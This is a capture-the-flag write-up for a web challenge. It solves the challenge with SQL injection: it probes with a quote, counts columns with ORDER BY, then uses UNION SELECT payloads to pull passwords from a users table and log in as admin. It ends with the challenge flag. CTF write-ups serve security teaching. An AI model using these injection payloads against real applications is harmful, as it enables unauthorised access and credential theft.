 # Challenge Name:
 [*Easy access*](https://cybertalents.com/challenges/web/easy-access)
 
# Challenge Description
Only superpower makes you see unlimited view.


Link: [http://ec2-35-158-236-11.eu-central-1.compute.amazonaws.com/easy-access/](http://ec2-35-158-236-11.eu-central-1.compute.amazonaws.com/easy-access/)

## Answer
* First we try inject (') to know database version and see if the character was filterd or not.
* Now try use order clause to know how many columns (Try until you reach number of columns don't make syntax error)
```sql
10' ORDER BY 10-- -
```
* Now we are ready to use Union in query
```sql
1' UNION ALL SELECT Password,1,1,2,1 FROM users-- -
```
* He will notice you that you should login as admin to see the flag so
```sql
admin' UNION ALL SELECT Password,1,1,1,1 FROM users-- -
```
* You got the Flag!!


 ## The Flag
 > flag{!njection_3v3ry_wh3r3} 
